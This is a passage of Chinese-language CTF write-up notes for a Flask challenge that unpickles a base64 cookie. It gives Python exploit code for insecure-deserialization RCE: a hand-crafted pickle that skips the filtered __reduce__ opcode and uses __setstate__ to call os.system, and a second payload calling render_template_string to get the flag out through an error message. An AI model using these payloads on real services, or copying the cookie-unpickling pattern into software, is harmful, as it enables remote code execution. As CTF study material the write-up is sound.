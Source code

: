 		  @app.route('/ppppppppppick1e')
		  def ppppppppppick1e():
		      try:
		          username = "admin"
		          rsp = make_response("Hello, %s " % username)
		          rsp.headers['hint'] = "Source in /src0de"
		          pick1e = request.cookies.get('pick1e')
		          if pick1e is not None:
		              pick1e = base64.b64decode(pick1e)
		          else:
		              return rsp
		          if check(pick1e):
		              pick1e = pickle.loads(pick1e)
		              return "Go for it!!!"
		          else:
		              return "No Way!!!"
		      except Exception as e:
		          error_message = str(e)
		          return error_message
		  
		      return rsp
		  
		  class GWHT():
		      def __init__(self):
		          pass
		  
		  if __name__ == '__main__':
		      app.run('0.0.0.0', port=80)
		  
		  ```
	- fuzz发现check函数过滤了`R`（也就是`__reduce__`)，在[https://zhuanlan.zhihu.com/p/89132768](https://zhuanlan.zhihu.com/p/89132768)看到一个不用reduce的RCE技巧，照着构造payload即可实现RCE
		- ```python
		  url = "http://80.endpoint-81b810b13d8a458daf70bf36210ea9e3.m.ins.cloud.dasctf.com:81//ppppppppppick1e"
		  
		  def cmd_payload(cmd):
		      payload = b'\x80\x03c__main__\nGWHT\n)\x81}(V__setstate__\ncos\nsystem\nubVls /\nb.'.replace(b"ls /", cmd.encode())
		      return payload
		  r = base_get(url, cookies = {
		      "pick1e": enc_dec.base64_encode(cmd_payload("ls /bin/python3 && sleep 2"))
		  })
		  print("_")
		  ```
	- 但是这一题RCE之后既不能产生回显，又不能出网，还得想办法读flag
	- 这里选择调用flask的`render_template_string`渲染一个恶意的模板，通过模板拿到eval函数并构造一个报错信息，通过报错信息带出回显，看到flag
		- 虽然这里应该是这题的docker配置出错导致我们有权限直接读取flag...
		- ```python
		  url = "http://80.endpoint-81b810b13d8a458daf70bf36210ea9e3.m.ins.cloud.dasctf.com:81//ppppppppppick1e"
		  
		  def cmd_payload(cmd):
		      payload = b'\x80\x03c__main__\nGWHT\n)\x81}(V__setstate__\ncflask\nrender_template_string\nubVls /\nb.'.replace(b"ls /", cmd.encode())
		      return payload
		  